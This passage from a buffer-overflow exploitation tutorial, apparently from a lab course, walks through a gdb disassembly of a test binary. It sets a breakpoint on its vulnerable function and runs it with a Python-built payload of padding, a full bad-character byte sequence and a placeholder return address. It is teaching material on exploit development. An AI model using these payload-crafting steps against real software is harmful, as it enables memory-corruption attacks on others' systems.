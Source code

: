 This string is 256 bytes long. So we need to calculate our buffer again. If we execute it now, the program will crash without giving us the possibility to follow what happens in the memory. So we will set a breakpoint at the corresponding function so that the execution stops at this point, and we can analyze the memory's content.
```
(gdb) disas main
Dump of assembler code for function main:
   0x56555582 <+0>: 	lea    ecx,[esp+0x4]
   0x56555586 <+4>: 	and    esp,0xfffffff0
   0x56555589 <+7>: 	push   DWORD PTR [ecx-0x4]
   0x5655558c <+10>:	push   ebp
   0x5655558d <+11>:	mov    ebp,esp
   0x5655558f <+13>:	push   ebx
   0x56555590 <+14>:	push   ecx
   0x56555591 <+15>:	call   0x56555450 <__x86.get_pc_thunk.bx>
   0x56555596 <+20>:	add    ebx,0x1a3e
   0x5655559c <+26>:	mov    eax,ecx
   0x5655559e <+28>:	mov    eax,DWORD PTR [eax+0x4]
   0x565555a1 <+31>:	add    eax,0x4
   0x565555a4 <+34>:	mov    eax,DWORD PTR [eax]
   0x565555a6 <+36>:	sub    esp,0xc
   0x565555a9 <+39>:	push   eax
   0x565555aa <+40>:	call   0x5655554d <bowfunc>		# <---- bowfunc Function
   0x565555af <+45>:	add    esp,0x10
   0x565555b2 <+48>:	sub    esp,0xc
   0x565555b5 <+51>:	lea    eax,[ebx-0x1974]
   0x565555bb <+57>:	push   eax
   0x565555bc <+58>:	call   0x565553e0 <puts@plt>
   0x565555c1 <+63>:	add    esp,0x10
   0x565555c4 <+66>:	mov    eax,0x1
   0x565555c9 <+71>:	lea    esp,[ebp-0x8]
   0x565555cc <+74>:	pop    ecx
   0x565555cd <+75>:	pop    ebx
   0x565555ce <+76>:	pop    ebp
   0x565555cf <+77>:	lea    esp,[ecx-0x4]
   0x565555d2 <+80>:	ret    
End of assembler dump.
```

Let's add the command `break`:
```
(gdb) break bowfunc 

Breakpoint 1 at 0x56555551
```

Now we can execute it. Send the char:
```
(gdb) run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
/bin/bash: warning: command substitution: ignored null byte in input

Breakpoint 1, 0x56555551 in bowfunc ()
```
